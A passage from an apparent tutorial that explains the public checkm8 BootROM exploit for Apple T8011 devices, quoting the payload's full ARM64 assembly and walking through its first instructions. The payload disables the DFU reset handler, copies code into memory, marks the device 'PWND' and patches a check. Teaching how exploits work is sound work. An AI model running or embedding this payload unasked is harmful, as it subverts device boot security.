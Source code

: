 ### Explaining the payload
While ARM64 assembly may seem rather daunting, you will see that it actually makes a lot of sense once you understand what each instruction does. Here is the `_main` function from the main checkm8 payload for T8011, which also contains another label as part of it:
```asm
_main:
  stp x29, x30, [sp, #-0x10]!
  ldr x0, =payload_dest
  ldr x2, =dfu_handle_bus_reset
  str xzr, [x2]
  ldr x2, =dfu_handle_request
  add x1, x0, #0xC
  str x1, [x2]
  adr x1, _main
  ldr x2, =payload_off
  add x1, x1, x2
  ldr x2, =payload_sz
  ldr x3, =memcpy_addr
  blr x3
  ldr x0, =gUSBSerialNumber
_find_zero_loop:
  add x0, x0, #1
  ldrb w1, [x0]
  cbnz w1, _find_zero_loop
  adr x1, PWND_STR
  ldp x2, x3, [x1]
  stp x2, x3, [x0]
  ldr x0, =gUSBSerialNumber
  ldr x1, =usb_create_string_descriptor
  blr x1
  ldr x1, =usb_serial_number_string_descriptor
  strb w0, [x1]
  mov w0, #0xD2800000
  ldr x1, =patch_addr
  str w0, [x1]
  ldp x29, x30, [sp], #0x10
  ret

PWND_STR:
.asciz " PWND:[checkm8]"
```

The first line simply stores the new link register and frame pointer, as any program would do when branching to a new function. However, after this line, the proper payload begins.

```asm
ldr x0, =payload_dest
ldr x2, =dfu_handle_bus_reset
str xzr, [x2]
```
This loads the address of the payload destination into the `x0` register, and the address of `dfu_handle_bus_reset` into `x2`. `dfu_handle_bus_reset` is the `handle_bus_reset` property of the USB interface instance created when DFU starts, and is simply a pointer to the `handle_bus_reset()` function. After this, the value in the `xzr` register (the zero register) is stored into memory at the address of `dfu_handle_bus_reset` in order to ensure the device does not respond to a USB reset and trigger the shut down of the USB stack again - as this will cause issues due to the state of the heap and how we are using the allocated `io_request` structures for the exploit.
